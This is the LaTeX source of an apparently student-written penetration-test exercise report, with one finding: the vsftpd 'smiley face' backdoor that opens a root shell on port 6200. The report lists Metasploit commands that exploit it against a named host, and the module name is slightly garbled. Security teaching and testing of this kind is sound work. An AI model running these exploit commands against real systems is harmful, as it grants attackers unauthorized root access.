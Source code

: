 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test - Exercise 06}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}



  \subsection{Finding: \emph{vsftdp Smiley Face Backdoor}}
  
	\subsubsection*{Severity Rating}
		High Risk Factor
	   	
		\cvss(N,L,N,N,U,H,H,H,8.8)
		
  	\subsubsection*{Vulnerability Description}
  		The vulnerability discovered in this section is known as the vsftpd smiley face backdoor specific to
        certain versions of vsftpd running on the host network. If a user attempts to login with a username containing a smiley
        face :), a backdoor is triggered and the host shell begins to listen on TCP port 6200. Any user that logs in
        with this in their username now possibly has root level access and can look at files, run code, and delete files.

  	\subsubsection*{Confirmation method}
  	    To run the exploit, start up the Metasploit framework and run the following commands in the kali command line:
        \begin{verbatim}
            sudo msfdb init
            msfconsole
            use exploit/unix/ftp/vsftpd 234 backdoor
            set RHOST ns.artstailor.com
            exploit
        \end{verbatim}
\end{document}
